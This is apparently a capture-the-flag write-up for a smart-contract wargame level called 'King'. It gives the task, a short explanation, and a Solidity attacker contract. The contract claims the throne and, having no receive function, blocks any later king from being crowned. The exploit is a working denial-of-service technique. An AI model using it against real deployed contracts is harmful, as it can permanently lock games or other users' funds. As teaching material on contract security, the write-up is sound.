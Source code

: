 # Task :

Whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process. Your goal is to break it and stay king forever 👑

# Solution :

All you have to do is make another contract that sends ether to the king contract but doesnt have a "recieve ether" function through which it can get the prize money from being overthrown. And if it didnt recieve the prize money the new king cant be declared.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract overThrowKing {
  constructor (address payable target) payable {
    uint prize = King(target).prize();
    (bool ok,) = target.call{value: prize}("");
    require(ok, "call failed" );
  }
}
```
